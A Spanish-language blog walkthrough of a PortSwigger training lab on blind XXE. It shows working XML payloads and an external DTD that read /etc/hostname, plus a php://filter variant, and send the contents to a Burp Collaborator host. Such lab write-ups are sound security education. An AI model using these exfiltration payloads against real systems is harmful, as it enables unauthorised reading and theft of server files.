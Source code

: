 ```yaml
---
title: "Exploiting blind XXE to exfiltrate data using a malicious external DTD"
description: "Laboratorio de Portswigger sobre XXE"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XXE
tags:
  - Portswigger Labs
  - XXE
  - Exploiting blind XXE to exfiltrate data using a malicious external DTD
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función de `Check stock` que analiza `entradas XML`, pero `no muestra el resultado`. Para resolver el laboratorio, hay que extraer el contenido del archivo `/etc/hostname`

---

## Guía de XXE

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XXE` [https://justice-reaper.github.io/posts/XXE-Guide/](https://justice-reaper.github.io/posts/XXE-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-5/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-5/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-5/image_3.png)

`Enviamos` una `petición` con un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE` pero no vemos nada interesante en la `respuesta`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este `dominio` obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`, lo cual quiere decir que ya tenemos un `XXE out-of-band interaction`

![](/assets/img/XXE-Injection-Lab-5/image_4.png)

Lo que podemos hacer ahora que hemos confirmado que podemos `cargar` un `recurso` del `servidor externo` es pulsar en `Go to exploit server`, introducir este `payload` en la parte de `Body` y pulsar sobre `Store` para almacenarlo. Esto `&#x25` es `%` pero en `hexadecimal`, se debe poner así y no en el formato normal para que funcione correctamente

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

En este laboratorio no funciona, pero podríamos usar este `wrapper` de `php` para `encodear` el `output` del `comando` en `base64` si es más de una línea

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

Lo siguiente que debemos hacer es irnos a donde pone `Craft response`, copiar la url `https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit` y `enviar` la `petición`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Ahora nos vamos a `Burpsuite Collaborator`, pulsamos en `Resquest to Collaborator` y vemos el `/etc/hostname `

![](/assets/img/XXE-Injection-Lab-5/image_5.png)

`Submiteamos` la `solución` y `completamos` el `laboratorio`

![](/assets/img/XXE-Injection-Lab-5/image_6.png)
